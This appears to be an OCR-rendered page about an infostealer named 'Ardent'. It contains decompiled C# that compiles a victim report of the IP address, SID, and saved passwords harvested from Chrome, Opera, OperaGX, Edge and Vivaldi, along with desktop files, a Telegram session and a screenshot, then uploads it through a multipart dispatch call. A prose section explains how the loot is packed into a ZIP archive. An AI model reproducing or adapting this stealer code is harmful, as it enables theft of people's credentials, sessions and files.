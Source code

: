 ```csharp
				array3[num2] = ((ip != null) ? ip.ToString() : null);
				array3[4] = "\n\ud83d\udd3a SID: ";
				array3[5] = Variables.SID;
				array3[6] = "\n\n\ud83d\udd3a All found passwords: ";
				array3[7] = Variables.allFoundPasswords.ToString();
				array3[8] = "\n\n\ud83d\udd3a    Found Chrome: ";
				array3[9] = Variables.isChromeFound;
				array3[10] = "\n\ud83d\udd3a        Found ChromePasswords: ";
				array3[11] = Variables.foundChromePasswords.ToString();
				array3[12] = "\n\n\ud83d\udd3a    Found OperaGX: ";
				array3[13] = Variables.isOperaGXFound;
				array3[14] = "\n\ud83d\udd3a        Found OperaGXPasswords: ";
				array3[15] = Variables.foundOperaGXPasswords.ToString();
				array3[16] = "\n\n\ud83d\udd3a    Found Opera: ";
				array3[17] = Variables.isOperaFound;
				array3[18] = "\n\ud83d\udd3a        Found OperaPasswords: ";
				array3[19] = Variables.foundOperaPasswords.ToString();
				array3[20] = "\n\n\ud83d\udd3a    Found Edge: ";
				array3[21] = Variables.isEdgeFound;
				array3[22] = "\n\ud83d\udd3a        Found EdgePasswords: ";
				array3[23] = Variables.foundEdgePasswords.ToString();
				array3[24] = "\n\n\ud83d\udd3a    Found Vivaldi: ";
				array3[25] = Variables.isVivaldiFound;
				array3[26] = "\n\ud83d\udd3a        Found VivaldiPasswords: ";
				array3[27] = Variables.foundVivaldiPasswords.ToString();
				array3[28] = "\n\n\ud83d\udd3a Additional information \n\ud83d\udd3a    Found files from desktop: ";
				array3[29] = Variables.foundFilesFromDesktop.ToString();
				array3[30] = "\n\ud83d\udd3a    Telegram session: ";
				array3[31] = Variables.telegramSessionFound;
				array3[32] = "\n\ud83d\udd3a    Is screenshot success: ";
				array3[33] = Variables.isScreenshotSuccess;
				array3[34] = "\n\ud83d\udd3a    Is zip compression success: ";
				array3[35] = Variables.isZipCompressionSuccess;
				array3[36] = "\n\n\ud83d\udcbb Coded by Ardent";
				array2[num] = string.Concat(array3);
				string text2 = string.Concat(array2);
				DataDispatch.UploadMultipart(array, text, "application/x-ms-dos-executable", text2);
			}
		}
	}
}

```

### **ZipCompression**

- Creates a ZIP archive using `Ionic.Zip`.
- Sets compression level to maximum (`level 9`).
- Adds a ZIP comment containing `username`, `IP address`, and `SID` from `Variables`.
- Adds all files from `Variables.temp + Variables.username` into the archive.
- Saves the archive as `[username]@ardent.zip` inside the temp directory.
- Updates `Variables.isZipCompressionSuccess` to `"Success!"` or the error message if exception occurs.

---